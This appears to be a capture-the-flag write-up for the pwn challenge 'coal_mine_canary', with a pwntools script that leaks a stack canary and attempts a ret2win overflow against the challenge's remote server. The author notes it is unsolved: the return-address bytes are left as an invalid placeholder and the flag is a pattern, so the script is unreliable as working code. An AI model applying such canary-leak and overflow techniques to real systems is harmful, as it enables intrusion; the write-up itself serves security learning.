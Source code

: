 https://ctftime.org/event/2416

# coal_mine_canary (pwn)

Venture into the depths of the digital coal mine, where safety is paramount, and the trusty canary is your lifeline. Working in these digital depths can be hazardous, but fear not! Your canary is here to warn of dangers ahead. Can you decode the signals and navigate through the coal dust to uncover the hidden gems? Keep your canary singing and your wits sharp in this coal mine adventure!

nc 34.125.199.248 5674

## Solution

1) Leak the canary
2) ret2win via the `tweet_tweet` function

Note: due to some issues the binary in the handout and on the remote don't quite match as a result its only possible to solve this with some kind of bruteforce which I was not able to complete before the end of the ctf.

```python
#!/usr/bin/env python3

from pwn import *
import struct
import os

context.log_level = "debug"
elf = ELF("./challenge", checksec=False)
context.binary = elf

#p = elf.process()
p = remote("34.125.199.248", 5674)

p.sendline(str(32).encode())
p.readuntil(b"> ")
p.send(b"A" * 32)
p.readuntil(b"Ok... its name is ")
p.read(32)

canary = p.read(8)
log.success(canary.hex())

p = remote("34.125.199.248", 5674)
p.sendline(str(0x38 + 2).encode())

p.readuntil(b"> ")

payload = b""
payload += b"B" * 32
payload += canary
payload += b"\x00" * 16
payload += b"\x??\x??" # unclear what this should be
p.send(payload)

p.interactive()
```

## Flag
`OSCTF{.+}`

smiley 2024/07/13
